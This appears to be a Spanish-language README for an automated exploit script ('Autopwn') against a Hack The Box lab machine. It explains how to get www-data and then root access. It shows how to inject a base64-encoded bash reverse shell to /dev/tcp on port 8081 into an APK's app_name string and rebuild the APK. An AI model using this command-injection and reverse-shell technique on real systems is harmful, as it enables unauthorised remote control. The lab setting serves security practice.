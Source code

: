 # Autopwn

### (www-data)
Al seleccionar la opcion 1 al ejecutar el script te dara acceso solo como usuario www-data en el sistema y te mostrara ya la contraseña ssh para el 
usiario will 

### (root)
Y al seleccionar la opcion 2 te dara acesso a el sistema como usuario root pero para eso ya tendras que tener listo el archivo apk con el payload 
preparado, de igual manera aqui te explico como hacerlo: 

1. Tendra que ya disponer de la herramienta **apk-tool.jar** y el apk de la maquina **catchv1.0.apk**, ya que tenga esos archivos ejecute los 
siguientes comandos:
 ```console
java -jar apktool_2.6.1.jar d catchv1.0.apk
nano catchv1.0/res/values/strings.xml
```
2. Busca la linea **< string name="app_name" >Catch</ string >** y agregar una reverse shell despues de Catch quedando asi 
**< string name="app_name" >Catch; echo** << Reverse Shell en base64 >> **| base64 -d | bash -i</ string >**

**Reverse shell en base64**
```console
echo '/bin/bash -l > /dev/tcp/<< your HTB ip address >>/8081 0<&1 2>&1' | base64 
```
3. Y ya despues compilamos otra ves el apk
```console
java -jar apktool_2.6.1.jar b catchv1.0/ -o out.apk
```

Ya con este archivo apk ahora si ejecute el archivo de python solo modifique las partes indicadas por los comentarios antes de usarlo
